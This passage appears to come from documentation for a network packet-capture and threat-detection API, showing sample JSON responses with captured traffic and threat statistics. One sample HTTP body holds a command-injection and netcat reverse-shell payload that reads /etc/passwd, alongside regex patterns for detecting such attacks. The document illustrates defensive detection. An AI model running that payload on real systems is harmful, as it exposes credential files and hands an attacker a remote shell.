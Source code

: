 ```json
    "content-length": "45"
  },
  "http_body": "cmd=cat /etc/passwd; nc 192.168.100.15 4444 -e /bin/bash",
  "suspicious_patterns": [
    "Command injection pattern: (;|\\||&|`|\\$\\())\\s*(cat|ls|pwd|whoami|id|uname|ps|netstat|ifconfig)",
    "Reverse shell pattern: (nc|netcat|bash|sh)\\s+.*\\s+\\d+\\s*-e"
  ]
}
```

**Raw Mode Response (raw_only=true):**
```json
{
  "timestamp": "2025-06-02T10:30:45.123456",
  "count": 50,
  "total_captured": 1234,
  "raw_lines": [
    "10:30:45.123456 IP 192.168.100.10.54321 > 172.20.0.2.80: Flags [P.]",
    "10:30:46.234567 IP 172.20.0.2.80 > 192.168.100.10.54321: Flags [P.]",
    "10:30:47.345678 IP 192.168.100.10.54321 > 172.20.0.2.80: Flags [F.]"
  ]
}
```

**With Enhanced Security Statistics (stats=true):**
```json
{
  "timestamp": "2025-06-02T10:30:45.123456",
  "count": 50,
  "total_captured": 1234,
  "packets": [...],
  "statistics": {
    "total_packets": 1234,
    "memory_packets": 1000,
    "running": true,
    "stats": {
      "protocol_TCP": 800,
      "protocol_UDP": 200,
      "protocol_ICMP": 234,
      "direction_outbound": 600,
      "direction_inbound": 400,
      "app_HTTP": 300,
      "app_HTTPS": 150,
      "security_threats": 25,
      "threat_command_injection": 12,
      "threat_sql_injection": 8,
      "threat_reverse_shell": 3,
      "threat_xss": 2,
      "threat_path_traversal": 1
    }
  }
}
```
